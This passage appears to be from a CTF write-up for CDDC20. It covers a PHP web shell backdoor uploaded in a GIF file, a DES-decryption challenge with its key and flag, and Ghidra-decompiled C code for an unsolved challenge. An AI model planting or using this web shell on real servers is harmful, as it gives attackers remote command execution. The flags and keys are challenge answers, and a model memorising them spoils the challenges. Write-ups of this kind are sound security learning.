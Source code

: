 ```bash
<?php echo "</pre>"; system($_GET['cmd']); ?>
```

After uploading the backdoor, we can execute our commands in the url.

![Ma GIF Backdoor](./Ma_GIF_3.png)

### ilovedes

Use des decryptor tool online, key is "ilovedes"
[DES decryptor tool](http://des.online-domain-tools.com/)

Flag: `CDDC20{i_l0v3_5yMmetR1c_EnCryp7i0N}`

### Secret Code (Unsolved)

Using Ghidra, a free and open source reverse engineering tool. It was able to reconstruct some of the source code back, however we were not sure on how to go on from here.

```c

/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

undefined4 main(void)

{
  undefined4 uVar1;
  int in_GS_OFFSET;
  int local_18;
  int local_14;
  undefined *local_10;

  local_10 = &stack0x00000004;
  local_14 = *(int *)(in_GS_OFFSET + 0x14);
  local_18 = 0;
  puts("         __                                     _           ");
  puts(" / / _   ) )     _   ) o  _ o _)_ _       _    / ` _   _ _  ");
  puts("(_/ ) ) /_/ (_( )_) (  ( (_ ( (_ (_) (_( (    (_. (_) ) )_) ");
  puts("               (                         _)            (    \n");
  printf("[S][E][C][R][E][T] [C][O][D][E]: ");
  __isoc99_scanf(&DAT_000109b2,&local_18);
  if (local_18 == -0xff23502) {
    check(0xf00dcafe);
  }
  else {
    check(local_18);
  }
  uVar1 = 0;
  if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) {
    uVar1 = __stack_chk_fail_local();
  }
  return uVar1;
}

```
